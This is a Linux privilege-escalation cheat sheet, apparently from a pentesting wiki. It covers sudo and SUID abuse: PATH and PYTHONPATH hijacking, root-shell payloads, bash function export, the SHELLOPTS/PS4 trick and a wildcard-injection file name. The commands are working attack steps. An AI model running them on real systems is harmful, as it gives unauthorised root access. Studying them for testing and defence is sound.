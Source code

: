 # PrivEsc via SUDO/SUID

## Verification

You could be allowed to execute some command using sudo or they could have the suid bit. Check it using:

### For SUDO

```bash
sudo -l #Check commands you can execute with sudo
```

### For SUID

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
find / -perm -u=s -type f 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null
find / -perm -400 2>/dev/null
find / \-perm -4000 -printf '%f\t%p\t%u\t%g\t%m\n' 2>/dev/null | column -t # More organized:
```

## NOPASSWD

Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.

```bash
sudo -l
User www-data may run the following commands on docker1:
    (root) NOPASSWD: /usr/bin/find
```

## SETENV

This directive allows the user to **set an environment variable** while executing something:

```bash
sudo -l
User www-data may run the following commands on docker2:
    (root) SETENV: /app/start.sh
```

If this Bash script executes a Python script that imports a library, we can escalate privileges:

```bash
sudo PYTHONPATH=/tmp/ /app/start.sh
```

## Sudo command/SUID binary without command path

If the **sudo permission** is given to a single command **without specifying the path**:&#x20;

* `testuser ALL= (root) less` you can exploit it by changing the PATH variable.

```bash
export PATH=/tmp:$PATH
```

Put your backdoor/payload in /tmp and name it "less":

```bash
echo "/bin/bash" > /tmp/service && chmod 777 /tmp/service
echo "bash -p" > /tmp/service && chmod 777 /tmp/service
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c && gcc /tmp/service.c -o /tmp/service
```

Execute.

```bash
chmod +x less
sudo less
```

This technique can also be used if a **suid** binary **executes another command without specifying the path to it (always check with** `strings` **the content of a weird SUID binary)**.

### SUID binary with command path

If the **suid** binary **executes another command specifying the path**, then, you can try to **export a function** named as the command that the suid file is calling.

{% hint style="danger" %}
This is possible **only** in **Bash versions <4.2-048**. Verification: `/bin/bash --version`
{% endhint %}

For example, if a suid binary calls _**/usr/sbin/service apache2 start**_ you have to try to create the function and export it:

{% hint style="info" %}
SUID binary example: **/usr/local/bin/suid-env2**
{% endhint %}

```bash
# Method 1:
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
# Method 2:
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```

Execute and done.

## GTFOBins

[**GTFOBins**](https://gtfobins.github.io) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

From the binaries we get, we will have to check in [GTFOBins](https://gtfobins.github.io) to see if some of our binaries are available to escalate privileges with the SUID permission. If there are custom binaries, we should investigate their functionality and see if there is a way to escalate privileges.

### Privilege Escalation

It depends on each binary, the GTFOBins resource provides it.

## Alternative sudo

There are some alternatives to the `sudo` binary such as `doas` for OpenBSD, remember to check its configuration at `/etc/doas.conf`

```bash
permit nopass www-data as root cmd find
```

## Tips

Sometimes, we can set the SUID bit to a binary as the root user, and then with our low privilege user, take advantage of that. However, if we copy a binary with SUID permissions from our user as root, the SUID permissions are erased. To avoid this, that is, to keep the SUID permissions, we can do this:

1. Maintain the SUID permissions of the **bash\_leviswings** binary. This way, the **bash\_root** will have SUID privileges and the owner will be root, allowing privilege escalation:

```bash
cp --preserve=mode bash_leviswings bash_root
```

&#x20; 2\. In case there is a script automating the copying task, i.e. using the `cp *` command, then we can trick it by creating a file with that option:

```bash
echo "" > "--preserve=mode"
```

